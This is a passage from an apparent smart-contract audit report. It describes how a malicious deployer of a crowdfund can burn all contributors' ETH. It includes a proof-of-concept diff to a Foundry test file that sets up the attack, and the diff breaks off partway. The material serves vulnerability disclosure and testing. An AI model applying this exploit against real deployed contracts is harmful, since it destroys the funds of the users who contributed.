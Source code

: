 Issue 1 is somewhat problematic, but issue 2 is very problematic, because all funds of a crowdfund are burned and an attacker can specifically set up such a deployment (and the user would not notice anything special, after all these are parameters that the protocol accepts).

### Proof Of Concept

This diff illustrates scenario 2, i.e. where a malicious deployer burns all contributions (1 ETH) of `contributor`. He loses 0.25ETH for the attack, but this could be reduced significantly (with more `burn(payable(address(0)))` calls:

```diff
--- a/sol-tests/crowdfund/BuyCrowdfund.t.sol
+++ b/sol-tests/crowdfund/BuyCrowdfund.t.sol
@@ -36,9 +36,9 @@ contract BuyCrowdfundTest is Test, TestUtils {
     string defaultSymbol = 'PBID';
     uint40 defaultDuration = 60 * 60;
     uint96 defaultMaxPrice = 10e18;
-    address payable defaultSplitRecipient = payable(0);
+    address payable defaultSplitRecipient = payable(address(this));
     uint16 defaultSplitBps = 0.1e4;
-    address defaultInitialDelegate;
+    address defaultInitialDelegate = address(this);
     IGateKeeper defaultGateKeeper;
     bytes12 defaultGateKeeperId;
     Crowdfund.FixedGovernanceOpts defaultGovernanceOpts;
@@ -78,7 +78,7 @@ contract BuyCrowdfundTest is Test, TestUtils {
                     maximumPrice: defaultMaxPrice,
                     splitRecipient: defaultSplitRecipient,
                     splitBps: defaultSplitBps,
-                    initialContributor: address(this),
+                    initialContributor: address(0),
                     initialDelegate: defaultInitialDelegate,
                     gateKeeper: defaultGateKeeper,
                     gateKeeperId: defaultGateKeeperId,
@@ -111,40 +111,26 @@ contract BuyCrowdfundTest is Test, TestUtils {
     function testHappyPath() public {
         uint256 tokenId = erc721Vault.mint();
         // Create a BuyCrowdfund instance.
-        BuyCrowdfund pb = _createCrowdfund(tokenId, 0);
+        BuyCrowdfund pb = _createCrowdfund(tokenId, 0.25e18);
         // Contribute and delegate.
         address payable contributor = _randomAddress();
         address delegate = _randomAddress();
         vm.deal(contributor, 1e18);
         vm.prank(contributor);
         pb.contribute{ value: contributor.balance }(delegate, "");
-        // Buy the token.
-        vm.expectEmit(false, false, false, true);
-        emit MockPartyFactoryCreateParty(
-            address(pb),
-            address(pb),
-            _createExpectedPartyOptions(0.5e18),
-            _toERC721Array(erc721Vault.token()),
-            _toUint256Array(tokenId)
-        );
-        Party party_ = pb.buy(
-            payable(address(erc721Vault)),
-            0.5e18,
-            abi.encodeCall(erc721Vault.claim, (tokenId)),
-            defaultGovernanceOpts
-        );
-        assertEq(address(party), address(party_));
-        // Burn contributor's NFT, mock minting governance tokens and returning
-        // unused contribution.
```